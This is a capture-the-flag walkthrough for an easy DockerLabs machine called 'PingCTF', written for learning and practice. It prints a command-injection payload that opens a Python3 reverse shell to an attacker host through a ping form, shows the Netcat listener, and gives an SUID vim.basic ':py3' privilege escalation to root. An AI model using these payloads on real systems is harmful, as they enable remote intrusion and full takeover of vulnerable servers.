



# PingCTF

## Executive Summary

| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| PingCTF | borazuwarah | Easy | dockerlabs |

**Summary:** The PingCTF machine exposes a single web service on port 80 running under Apache 2.4.58, which hosts a ping utility interface vulnerable to OS command injection. By injecting a crafted Python reverse shell payload into the ping input field, an attacker achieves an initial foothold as `www-data`. During post-exploitation enumeration of SUID binaries, the `/usr/bin/vim.basic` binary is discovered with the SUID bit set, owned by root. This binary is leveraged through its built-in Python3 execution capability (`vim -c ':py3 ...'`) to spawn an effective UID 0 shell. A subsequent `os.setuid(0)` and `os.setgid(0)` call via Python3 fully drops the privilege boundary, granting a full `root` shell with real UID 0 and GID 0, completing the privilege escalation chain from a simple command injection to complete system compromise.

---

## Reconnaissance

**1. Deploy the Machine**

The lab environment is deployed using the provided `auto_deploy.sh` script with the machine archive `ping_ctf.tar`. After a short provisioning period, the machine is assigned the IP address `172.17.0.2`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ sudo bash auto_deploy.sh ping_ctf.tar 
[sudo] password for ouba: 

                        ##        .         
                  ## ## ##       ==         
               ## ## ## ##      ===         
           /"""""""""""""""\___/ ===       
      ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
           \______ o          __/           
             \    \        __/            
              \____\______/               
                                      
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                      
                                  

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scanning**

A full TCP port scan with service and script detection is performed using Nmap. Only one port is found open: port 80 running Apache HTTP Server 2.4.58 on Ubuntu, with the page title "Ping".

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-25 00:18 WIB
Nmap scan report for 172.17.0.2
Host is up (0.000013s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Ping
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.49 seconds
```

The attack surface is minimal: a single HTTP service to investigate.

---

## Initial Access

**3. Web Application Analysis**

Navigating to port 80 in a browser reveals a web page hosting a simple ping utility interface that accepts user input.



**4. Command Injection Discovery**

Testing the input field reveals that it passes the user-supplied value directly to the underlying OS shell without sanitization, resulting in Remote Code Execution (RCE).



**5. Setting Up the Listener**

Before triggering the reverse shell, a Netcat listener is started on the attacker machine on port 4444.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ nc -lvnp 4444        
```

**6. Triggering the Reverse Shell**

The following Python3 reverse shell payload is injected into the ping input field to connect back to the attacker:

```
127.0.0.1; python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```



The connection is received on the Netcat listener. A TTY is then stabilized for a fully interactive shell session:

```bash
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 55072
$ which python3
which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")
python3 -c 'import pty;pty.spawn("/bin/bash")
> '
'
www-data@3d90df5d0a68:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

www-data@3d90df5d0a68:/var/www/html$ export TERM=xterm-256color
www-data@3d90df5d0a68:/var/www/html$ export SHELL=/bin/bash
www-data@3d90df5d0a68:/var/www/html$ stty rows 80 cols 130
```

An initial foothold as `www-data` is now established.

---

## Privilege Escalation

**7. SUID Binary Enumeration**

With a stable shell, the filesystem is searched for binaries with the SUID bit set. The `vim.basic` binary stands out immediately as a non-standard SUID binary owned by root with a large file size, indicating a full Vim installation.

```bash
www-data@0edcfd0c88aa:/var/www/html$ find / -type f -perm -4000 -exec ls -la {} \; 2>/dev/null
-rwsr-xr-x 1 root root 44760 May 30  2024 /usr/bin/chsh
-rwsr-xr-x 1 root root 39296 Dec  5  2024 /usr/bin/umount
-rwsr-xr-x 1 root root 55680 Dec  5  2024 /usr/bin/su
-rwsr-xr-x 1 root root 51584 Dec  5  2024 /usr/bin/mount
-rwsr-xr-x 1 root root 40664 May 30  2024 /usr/bin/newgrp
-rwsr-xr-x 1 root root 76248 May 30  2024 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 64152 May 30  2024 /usr/bin/passwd
-rwsr-xr-x 1 root root 72792 May 30  2024 /usr/bin/chfn
-rwsr-xr-x 1 root root 4126400 Apr  1  2025 /usr/bin/vim.basic
```

**8. Exploiting vim.basic via Python3 Execution**

`vim.basic` is compiled with Python3 support, and because it runs with SUID privileges, any code executed through its `:py3` interface inherits the effective UID of root. The following command spawns a bash shell with `euid=0`:

```bash
www-data@3d90df5d0a68:/var/www/html$ vim.basic -c ':py3 import os; os.execl("/bin/bash","bash","-p")'
```

After typing `reset` (regardless of what appears in the terminal) and pressing Enter, the shell confirms effective root access. A Python3 call then drops all privilege boundaries to achieve a full real-UID-0 root shell:

```bash
bash-5.2# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
bash-5.2# python3 -c 'import os; os.setuid(0); os.setgid(0); os.system("/bin/bash")'
root@3d90df5d0a68:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@3d90df5d0a68:/var/www/html# su -
root@3d90df5d0a68:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
3d90df5d0a68
```

Full root access is confirmed with `uid=0(root)`, `gid=0(root)`, completing the machine.

---

## Attack Chain Summary

1. **Reconnaissance**: Full TCP port scan with Nmap reveals a single open port: port 80 running Apache httpd 2.4.58 on Ubuntu, hosting a web page titled "Ping".
2. **Vulnerability Discovery**: The ping web utility accepts unsanitized user input and passes it directly to the OS shell, confirming Remote Code Execution via command injection.
3. **Exploitation**: A Python3 reverse shell payload is injected through the ping field. The callback is caught with Netcat and stabilized into a fully interactive TTY as `www-data`.
4. **Internal Enumeration**: A search for SUID binaries reveals `/usr/bin/vim.basic` with the SUID bit set and owned by root, compiled with Python3 scripting support.
5. **Privilege Escalation**: The SUID `vim.basic` binary is used to execute `os.execl("/bin/bash","bash","-p")` via its `:py3` interface, achieving `euid=0`. A subsequent Python3 `setuid(0)` and `setgid(0)` call grants a full root shell with real UID 0 and GID 0.
